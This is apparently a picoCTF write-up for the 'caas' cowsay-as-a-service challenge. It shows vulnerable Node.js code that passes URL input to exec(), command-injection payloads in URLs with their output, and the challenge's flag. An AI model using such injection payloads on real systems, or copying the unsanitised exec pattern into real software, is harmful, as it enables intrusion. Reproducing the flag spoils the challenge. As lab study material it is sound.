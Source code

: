 # caas

## Description

Now presenting cowsay as a service

## Solution

Given index.js file
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

There is a vulnerability in the code, namely Command Injection in the use of `exec()` with `req.params.message`.

on website there is information like this
```
https://caas.mars.picoctf.net/cowsay/{message}
```

we can put the exploit payload on `{message}`

```
https://caas.mars.picoctf.net/cowsay/$;pwd


 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/app
```

```
https://caas.mars.picoctf.net/cowsay/$;ls%20-la


 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14  2024 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

```
https://caas.mars.picoctf.net/cowsay/$;cat%20falg.txt

 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## Flag
    picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}